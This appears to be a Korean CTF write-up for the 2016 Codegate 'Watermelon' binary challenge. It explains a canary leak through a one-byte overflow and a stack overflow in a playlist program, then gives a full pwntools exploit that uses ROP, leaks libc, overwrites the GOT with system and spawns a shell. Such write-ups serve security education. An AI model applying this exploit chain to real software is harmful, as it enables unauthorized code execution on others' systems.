 ```yaml
---
layout: post
title: "2016 Codegate Watermelon"
date: 2019-11-13
ctf: Codegate CTF
---
```


이름을 입력하는 곳을 보면 전역변수(bss) 영역에 scanf를 받게 된다.

add, view, modify에 들어가는 인자가 4400만큼 할당받는다.

add함수에서는 어떠한 전역변수 하나가 100인지 비교하고 아니면 곡 추가하고 증가해주는 거 보면 곡의 인덱스인거 같다.

playlist 구조체 : num(4) + music(20) + artist(20)

이러한 구조체가 100개 있는 것이다.

```c
int playlist_struct; // [esp+1Ch] [ebp-113Ch]
unsigned int canary; // [esp+114Ch] [ebp-Ch]
구조체(4400) + canary()
```

add() : 1byte overflow

view() : playlist view -> view canary

modify() : overflow 

Canary Leak 시나리오

> add()로 playlist 100개 채우는데 마지막에 artist만 21개 입력해서 Canary Leak해준다.
>
> view()로 가서 Leak된 Canary를 알아온다.
>
> modify()로 가서 bof 일으키고 Canary 값 맞춰주면서 ROP 해주면 된다.

```python
from pwn import *
 
context.log_level = 'debug'
context.arch = 'i386'
 
p = process('./watermelon')
libc = ELF('/lib/i386-linux-gnu/libc.so.6',checksec=False)
e = ELF('./watermelon')
 
sla = lambda x,y : p.sendlineafter(x,y)
sl = lambda x : p.sendline(x)
sa = lambda x,y : p.sendafter(x,y)
s = lambda x : p.send(x)
 
popret = 0x080484d1 # 0x080484d1 : pop ebx ; ret
pop3ret = 0x080495ad # 0x080495ad : pop ebx ; pop edi ; pop ebp ; ret
bss = e.bss()
 
def add():
    sla('\tselect\t|\t\n','1')
    sla('\tmusic\t|\t','A')
    sla('\tartist\t|\t','A')
 
if __name__ == '__main__':
    sla('name : \n','realsung')
    for i in range(99):
        add()
    sla('\tselect\t|\t\n','1')
    sla('\tmusic\t|\t','A')
    sla('\tartist\t|\t','A'*21)
 
    sla('\tselect\t|\t\n','2')
    p.recvuntil('A'*20)
    canary = u32(p.recv(4)) - ord('A')
    log.info('canary : ' + hex(canary))
 
    ########################################
 
    sla('\tselect\t|\t\n','3')
    sla('select number\t|\t\n','100')
    sla('\tmusic\t|\t','B')
 
    # artist(20) + canary(4) + dummy(8) + sfp(4) + ret 
    pay = 'A'*20
    pay += p32(canary)
    pay += 'A'*12
    pay += flat(e.plt['puts'],popret,e.got['puts'])
    pay += flat(e.plt['read'],pop3ret,0,bss,10)
    pay += flat(e.plt['read'],pop3ret,0,e.got['puts'],8)
    pay += flat(e.plt['puts'],'AAAA',bss) 
    sla('\tartist\t|\t',pay)
 
    sla('\tselect\t|\t\n','4')
 
    p.recvuntil('BYE BYE\n\n')
    puts = u32(p.recv(4))
    log.info('puts : ' + hex(puts))
    libc_base = puts - libc.symbols['puts']
    log.info('libc_base : ' + hex(libc_base))
    system = libc_base + libc.symbols['system']
    log.info('system : ' + hex(system))
 
    sl('/bin/sh\x00')
    s(p32(system))
 
p.interactive()
```

